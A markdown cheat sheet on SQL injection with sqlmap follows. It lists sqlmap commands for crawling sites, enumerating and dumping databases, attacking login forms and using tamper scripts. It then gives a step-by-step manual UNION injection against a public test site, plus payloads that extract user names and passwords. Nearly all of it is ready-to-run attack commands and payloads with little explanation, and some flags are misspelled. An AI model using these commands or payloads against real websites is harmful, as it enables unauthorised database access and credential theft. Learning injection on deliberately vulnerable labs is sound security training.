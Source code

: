# SQLmap
 SQL is a standard language for accessing and manipulating databases.
     SQL stands for Structured Query Language
    SQL lets you access and manipulate databases
    SQL became a standard of the American National Standards Institute (ANSI) in 1986, and of the International Organization for Standardization (ISO) in 1987
 
# Overview 

- Techniques     |     -u        
- Crawl         |     --forms
- Enumeration   |     --data
- Batch         |     --headers
- Risk          |     --user-agent
- Level         |     --cookie
- Threads       |     --flush-session
- Verbosity     |     --output-dir
- Proxy         |     --tamper
- SQL Injection Via Burp-Suite

# Techniques 

* B: Boolean-based blind
* E: Error-based
* U: Union query-based
* S: Stacked queries 
* T: Time-based blind
* Q: Inline queries 
   --technique-"B"

# Crawl

* Depth 1: http://www.example.com/news
* Depth 2: http://www.example.com/news/newest/
* Depth 3: http://www.example.com/news/newest/terror/
* Depth 4: http://www.example.com/news/newest/terror/country/
     --crawl 3
     
# Verbosity
* 0: show only python tracebacks, error and critical messages.
* 1: show also information and warning messages.
* 2: show also debug messages.
* 3: show also payloads injected.
* 4: show also HTTP requests.
* 5: show also HTTP responses'headers.
* 6: show also HTTP responses'page content
     
# Kali linux   ( command ) 

1.  sqlmap -u http://www.example.com/ --crawl 2 
2.  sqlmap -u http://www.example.com/ --crawl 3 --batch 
3.  sqlmap -u http://www.example.com/ --crawl 3 --technigue="U"                ( U = union )
4.  sqlmap -u http://www.example.com/ --crawl 2 --batch --threads 5            ( 1 to 10 )
5.  sqlmap -u http://www.example.com/ --crawl 2 --batch --risk 2               ( 1 to 3 )
6.  sqlmap -u http://www.example.com/ --crawl 2 --batch --level 1              ( 1 to 5 )
7.  sqlmap -u http://www.example.com/ --crawl 3 --batch -v 4                   ( 0 to 6 )
8.  sqlmap -u http://www.example.com/listproducts.php?cat=? --current-user --current-db --hostname --batch     ( vulnerable website link )
9.  sqlmap -u http://www.example.com/listproducts.php?cat=? --dbs              ( all data base details )
10. sqlmap -u http://www.example.com/listproducts.php?cat=? -D ( avl. database name ) --tables 
11. sqlmap -u http://www.example.com/listproducts.php?cat=? -D ( avl. database name ) -T ( avl. tables name ) --dump
12. sqlmap -u http://www.example.com/listproducts.php?cat=? -D ( avl. database name ) -T ( avl. tables name ) --columns 
13. sqlmap -u http://www.example.com/listproducts.php?cat=? -D ( avl. database name ) --dump-all
14. sqlmap -u http://www.example.com/ --crawl 2 --output-dir="home/ghost/desktop/sql/" --batch
15. sqlmap -u http://www.example.com/ --crawl 2 --headers="Referer:abc.com" -v 4 --batch
16. sqlmap -u http://www.example.com/ --crawl 2 --user-agent="GECKO_CHROME" -v 4 --batch
17. sqlmap -u http://www.example.com/ --crawl 2 --mobile -v 4 
18. sqlmap --list-tempers
19. sqlmap -u http://www.example.com/ --crawl 2 --tamper=base64encode -v 3 --batch

# BRUTE FORCE LOGIN PAGE
* first we need url of login page 
* than we need username && password && login we need to find the value of username , password , login [ by using inspect ].
* for eg username value is going with uname && password value is going with pass && login value is going with submit.
* also we need to check the username && password && login case value is going with userinfo.php 
* sqlmap -u http://www.example.com/login.php --forms         (next step first cat the sql save data)
* sqlmap -u http://www.example.com/userinfo.php --data="uname=abc&pass=abc&login=submit" --dbs

# PROXY
* sqlmap -u http://www.example.com/ --crawl 2 --proxy="127.0.0.1:8080"      ( then go to burp suite )

# Highlights
* --cookie
* --flush-session
* --comment
* --os-shell
* --os-cmd

# Manually 
1. http://testphp.vulnweb.com/
2. http://testphp.vulnweb.com/listproducts.php?cat=1'           ( we use malicious payload )
3. http://testphp.vulnweb.com/listproducts.php?cat=1 order by 11--+
4. http://testphp.vulnweb.com/listproducts.php?cat=1 union select 1,2,3,4,5,6,7,8,9,10,11--+
5. http://testphp.vulnweb.com/listproducts.php?cat=1 union select 1,database(),3,4,5,6,7,8,9,10,11--+
6. http://testphp.vulnweb.com/listproducts.php?cat=1 union select 1,database(),3,4,5,6,7,8,version(),10,11--+
7. http://testphp.vulnweb.com/listproducts.php?cat=1 union select 1,database(),3,4,5,6,table_name,8,version(),10,11 from information_schema.tables--+
8. http://testphp.vulnweb.com/listproducts.php?cat=1 union select 1,database(),3,4,5,6,column_name,8,version(),10,11 from information_schema.columns where table_name="users"--+
9. http://testphp.vulnweb.com/listproducts.php?cat=1 union select 1,database(),3,4,5,6,group_concat(uname,pass),8,version(),10,11 from users--+


eg :-)

1. ' union select username, password from users--+
2. '+UNION+SELECT+NULL,username||'~'||password+FROM+users--
3. '+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--






